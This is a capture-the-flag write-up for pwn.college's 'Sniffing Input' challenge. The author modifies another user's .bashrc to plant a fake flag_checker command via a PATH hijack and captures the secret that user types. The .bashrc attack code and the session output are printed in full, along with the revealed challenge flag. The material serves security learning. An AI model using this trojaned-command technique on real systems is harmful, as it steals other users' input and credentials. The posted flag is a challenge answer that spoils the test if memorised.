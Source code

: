 # Sniffing Input

In this challenge we need to hijack `flag_checker` command we learned in `Pondering PATH` , by using `.bashrc` of `zardus` user, the flag_checker must read the flag inputted by zardus and then echo it back to us to get it.

## My solve

Flag : `pwn.college{o7UzgqcAvu4iC2a-QZgQnh555vK.0VNzEzNxwCM0gjNzEzW}`

This challenge turned out to be a bit tricky, what we had to do is use echo the followind commands to `flag_checker` : `echo "Type the flag";read var;echo $var`, but we cannot just pass it through directly inside echo that won't work instead we need to use escape characters to do it, after doing that we need to make the file executable and then set Path to it's folder to get the flag.
So our `.bashrc` file would now look something like this after doing the above steps.

```bash
# this sets up a scary red shell prompt!
PS1='\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]$ '

# add your attack below this line!
echo "echo \"Type the flag\"\;read var\;echo \$var" > flag_checker
chmod a=rwx /home/zardus/flag_checker
PATH=/home/zardus
```

Output : 
```shell
hacker@shenanigans~sniffing-input:~$ nano /home/zardus/.bashrc 
hacker@shenanigans~sniffing-input:~$ /challenge/victim 
Username: zardus
Password: **********
zardus@shenanigans~sniffing-input:~$ flag_checker
Type the flag;read var;echo
zardus@shenanigans~sniffing-input:~$ *************************************************************-bash: pwn.college{o7UzgqcAvu4iC2a-QZgQnh555vK.0VNzEzNxwCM0gjNzEzW}: command not found
zardus@shenanigans~sniffing-input:~$ exit
logout
```
